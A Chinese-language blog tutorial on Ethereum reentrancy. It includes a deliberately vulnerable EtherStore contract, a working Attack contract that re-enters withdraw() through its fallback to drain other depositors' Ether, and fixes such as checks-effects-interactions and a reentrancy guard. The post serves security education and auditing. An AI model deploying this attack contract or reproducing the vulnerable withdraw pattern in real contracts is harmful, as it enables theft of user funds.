 ```yaml
---
date: 2022-06-17
layout: post
title: 重入漏洞分析
description: 详解重入漏洞的原理和攻击方法
image:![Uploading IMG_4205(20220621-160652).JPG…]()
category: study
tags:
 - 学习
author: aventusc
---
```


### 前置知识

以太坊智能合约的特点之一是合约之间可以进行相互间的外部调用。同时，以太坊的转账不仅仅局限于外部账户，合约账户同样可以拥有以太并进行转账等操作，且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用。

**发送以太的方式：**

- `transfer` (2300 gas, 抛出错误)
- `send` (2300 gas, 返回布尔值)
- `call` (转发所有 gas 或设置 gas，返回布尔值)

*注：括号中是这个方法的执行操作，他们的第一个返回值都要么是布尔值要么是抛出错误。*

**接收以太的方式：**

接收 Ether 的合约**必须至少**具有以下函数之一

- `receive() external payable`
- `fallback() external payable`

*如果 `msg.data` 为空，则调用 `receive()` ，否则调用 `fallback()`。*

我们先给重入漏洞下个定义：可以认为合约中所有的外部调用都是不安全的，都有可能存在重入漏洞。例如：如果外部调用的目标是一个攻击者可以控制的**恶意合约A**，那么当**被攻击的合约B**在调用**恶意合约A**的时候攻击者可以执行**恶意的逻辑C**然后再重新进入到**被攻击合约B**的内部，通过这样的方式来发起一笔非预期的外部调用，从而影响**被攻击合约B**正常的执行逻辑。

### 漏洞示例

举个例子来对重入攻击的原理进行分析：

下面面的代码：`EtherStore` 就是个普通的充提币的合约，凭什么说他有重入攻击呢？我们来看这个合约的 `withdraw` 函数，这个函数中的转账操作有一个外部调用（msg.sender.call{value: bal}），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：

1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 `fallback` 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
2. 我们可以看到在 `withdraw` 函数中是先执行外部调用进行转账后才将账户余额清零的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 `balance[msg.sender]=0` 之前一直循环调用 `withdraw` 函数一直提币从而将合约账户清空呢？

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

/*
我们看到 EtherStore 合约是一个充提合约，我们可以在其中充提以太。
该合约会受到重入攻击
让我们看看为什么。

1. 部署 EtherStore 合约；
2. 用户 1（Alice）和用户 2（Bob）都分别将 1 个以太币充值到 EtherStore 合约中；
3. 攻击者 Eve 部署 Attack 合约时传入 EtherStore 合约的地址；
4. 攻击者 Eve 调用 Attack.attack 函数，Attack.attack 又调用 EtherStore.deposit 函数，
    充值 1 个以太币到 EtherStore 合约中，此时 EtherStore 合约中共有 3 个以太，
    分别为 Alice、Bob 的 2 个以太和攻击者 Eve 刚刚充值进去的 1 个以太。
    然后 Attack.attack 又调用 EtherStore.withdraw 函数将自己刚刚充值的以太取出，
    此时 EtherStore 合约中就只剩下 Alice、Bob 的 2 个以太了；

接下来会发送什么？
当 Attack.attack 调用 EtherStore.withdraw 提取了先前 Eve 充值的 1 个以太时会触发 Attack.fallback 函数。
这时只要 EtherStore 合约中的以太大于或等于 1 Attack.fallback 就会一直调用 EtherStore.withdraw 函数将 EtherStore 合约中的以太提取到 Attack 合约中，直到 EtherStore 合约中的以太小于 1 。
这样攻击者 Eve 会得到 EtherStore 合约中剩下的 2 个以太币（Alice、Bob 充值的两枚以太币）。

下面是攻击者的函数调用流程：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); //选择性处理多返回值，将
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### 修复建议

1. 作为开发人员

看了上面的攻击手法相信大家对重入漏洞都会有一个自己的认知，但是只会攻击可不行，我们的目的是为了防御，那么作为开发人员如何避免写出漏洞代码还有作为审计人员如何快速发现问题代码呢，下面我们就以这两个身份来分析如何防御重入漏洞和如何在代码中快速找出重入漏洞：

- 写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）；
- 加入防重入锁。

下面是一个防重入锁的代码示例：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```

1. 作为审计人员

作为审计人员我们需要关注的是重入漏洞的特征：所有涉及到外部合约调用的代码位置都是不安全的。这样在审计过程中需要重点关注外部调用，然后推演外部调用可能产生的危害，这样就能判断这个地方是否会因为重入点而产生危害。
